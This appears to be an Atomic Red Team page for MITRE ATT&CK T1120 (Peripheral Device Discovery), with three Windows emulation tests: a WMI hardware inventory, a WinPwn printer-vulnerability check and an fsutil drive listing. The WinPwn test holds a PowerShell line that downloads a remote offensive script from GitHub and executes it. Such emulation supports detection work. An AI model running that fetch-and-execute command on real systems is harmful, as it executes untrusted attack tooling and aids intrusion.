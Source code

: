 # T1120 - Peripheral Device Discovery
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1120)
<blockquote>Adversaries may attempt to gather information about attached peripheral devices and components connected to a computer system.(Citation: Peripheral Discovery Linux)(Citation: Peripheral Discovery macOS) Peripheral devices could include auxiliary resources that support a variety of functionalities such as keyboards, printers, cameras, smart card readers, or removable storage. The information may be used to enhance their awareness of the system and network environment or may be used for further actions.</blockquote>

## Atomic Tests

- [Atomic Test #1 - Win32_PnPEntity Hardware Inventory](#atomic-test-1---win32_pnpentity-hardware-inventory)

- [Atomic Test #2 - WinPwn - printercheck](#atomic-test-2---winpwn---printercheck)

- [Atomic Test #3 - Peripheral Device Discovery via fsutil](#atomic-test-3---peripheral-device-discovery-via-fsutil)


<br/>

## Atomic Test #1 - Win32_PnPEntity Hardware Inventory
Perform peripheral device discovery using Get-WMIObject Win32_PnPEntity

**Supported Platforms:** Windows


**auto_generated_guid:** 2cb4dbf2-2dca-4597-8678-4d39d207a3a5






#### Attack Commands: Run with `powershell`! 


```powershell
Get-WMIObject Win32_PnPEntity | Format-Table Name, Description, Manufacturer > $env:TEMP\T1120_collection.txt
$Space,$Heading,$Break,$Data = Get-Content $env:TEMP\T1120_collection.txt
@($Heading; $Break; $Data |Sort-Object -Unique) | ? {$_.trim() -ne "" } |Set-Content $env:TEMP\T1120_collection.txt
```

#### Cleanup Commands:
```powershell
Remove-Item $env:TEMP\T1120_collection.txt -ErrorAction Ignore
```





<br/>
<br/>

## Atomic Test #2 - WinPwn - printercheck
Search for printers / potential vulns using printercheck function of WinPwn

**Supported Platforms:** Windows


**auto_generated_guid:** cb6e76ca-861e-4a7f-be08-564caa3e6f75






#### Attack Commands: Run with `powershell`! 


```powershell
$S3cur3Th1sSh1t_repo='https://raw.githubusercontent.com/S3cur3Th1sSh1t'
iex(new-object net.webclient).downloadstring('https://raw.githubusercontent.com/S3cur3Th1sSh1t/WinPwn/121dcee26a7aca368821563cbe92b2b5638c5773/WinPwn.ps1')
printercheck -noninteractive -consoleoutput
```






<br/>
<br/>

## Atomic Test #3 - Peripheral Device Discovery via fsutil
Performs pheripheral device discovery utilizing fsutil to list all drives.

**Supported Platforms:** Windows


**auto_generated_guid:** 424e18fd-48b8-4201-8d3a-bf591523a686






#### Attack Commands: Run with `command_prompt`! 


```cmd
fsutil fsinfo drives
```






<br/>

